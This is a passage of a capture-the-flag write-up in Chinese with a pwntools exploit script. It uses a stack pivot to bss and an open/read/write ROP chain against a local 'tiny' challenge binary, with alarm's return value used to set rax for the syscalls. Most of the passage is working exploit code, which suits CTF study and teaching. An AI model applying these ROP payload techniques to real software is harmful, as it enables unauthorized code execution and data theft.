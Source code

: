 所以通过read读入字节数控制rax行不通。思索还有啥能控制rax的呢？果然通过查alarm函数返回值知道，alarm函数返回值通俗的说是距alarm还剩的秒数，这里要控制rax = 2调用open，就要在alarm剩余两秒的时候调用，函数返回2，同理在alarm剩余1秒的时候调用alarm，rax = 1调用write，实现读取flag。思路可以将栈迁移到bss段，然后在bss段进行orw。
利用步骤：

1. 通过栈溢出控制rbp为bss+0x30，返回地址为rop，调用sys_read，将./flag写入bss
2. 通过alarm设置rax = 2，rop调用sys_open打开./flag文件
3. rop调用sys_read，将fd（flag）读入bss-0x120处
4. 通过alarm设置rax = 1，rop调用sys_write输出flag

## exp

```python
from pwn import *
context.log_level='debug'
context.terminal = ['/bin/tmux', 'split', '-h']
sh = process('./tiny')

bss =  0x405000-0x100
vul = 0x401070
alarm = 0x401055
syscall = 0x4010ad
pop_rdi = 0x401103
pop_rsi_r15 = 0x401101
'''
.text:0000000000401088                 mov     eax, 0
.text:000000000040108D                 mov     edx, 70h ; 'p'  ; count
.text:0000000000401092                 syscall                 ; LINUX - sys_read
'''

edi_0_edx_70_eax_0_syscall = 0x401083
#gdb.attach(sh)
#pause()
sh.recvuntil('pwned!')
payload = p64(0) + p64(bss+0x30)
payload += p64(pop_rsi_r15) + p64(bss) + p64(0) + p64(edi_0_edx_70_eax_0_syscall) #0x20  read(0,bss,0x70)

sh.send(payload)
sh.recvuntil('Bye')
bp_payload = b'./flag\x00\x00' + b'\x00'*0x28 + p64(vul) + p64(vul) + p64(vul)

sh.sendline(bp_payload)

payload = p64(0) + p64(bss + 0x70)
payload += p64(alarm) + p64(pop_rdi) + p64(bss) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(syscall) + p64(vul) #0x40  open(bss,0,0)
sleep(10) # rax = 2 open

sh.send(payload)

sh.recvuntil('Bye')
sh.recvuntil('Bye')
payload = p64(0) + p64(bss+0xa8)
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi_r15) + p64(bss-0x120) + p64(0) + p64(0x401088) + p64(vul) #0x30 read(3,bss-0x120,0x70)
sh.send(payload)
sleep(11)   # rax = 1  write
#gdb.attach(sh,'b *0x40106d')
sh.recvuntil('Bye')
payload = p64(0) + p64(bss)
payload += p64(alarm) + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(bss-0x120) + p64(0) + p64(0x40108d) # write(1,bss-0x120,0x70)
sh.send(payload)
sh.interactive()
```